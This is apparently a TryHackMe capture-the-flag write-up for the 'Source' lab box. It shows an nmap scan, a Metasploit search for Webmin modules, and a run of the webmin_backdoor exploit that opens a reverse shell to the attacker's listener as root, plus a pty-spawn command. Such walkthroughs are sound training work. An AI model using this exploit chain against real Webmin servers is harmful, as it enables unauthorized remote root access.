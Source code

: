 # THM - Source

#### Ip: 10.10.195.75
#### Name: Source
#### Difficulty: Easy

----------------------------------------------------------------------

source.png

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ sudo nmap -p-  --min-rate 10000 10.10.195.75 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 12:29 CDT
Warning: 10.10.195.75 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.195.75
Host is up (0.26s latency).
Not shown: 62627 closed tcp ports (reset), 2906 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.36 seconds
```

Seeing that Webmin is running and is associated with several vulnerabilities I fire up Metasploit to take a look at which modules may be of interest. 

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ msfconsole -q                                                                            
msf6 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
```

The webmin_backdoor seems interesting.

Updating the options to:

options.png

We can then launch the exploit using the `run` command:

```text
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.2.6.181:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 2 opened (10.2.6.181:4444 -> 10.10.195.75:49722) at 2023-09-19 12:43:27 -0500

whoami
root
hostname
source
python -c 'import pty;pty.spawn("/bin/bash")'


root@source:/usr/share/webmin/#
```

Nice, we caught a shell as root!

All we need to do now is grab our flags:

user_flag.png

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------
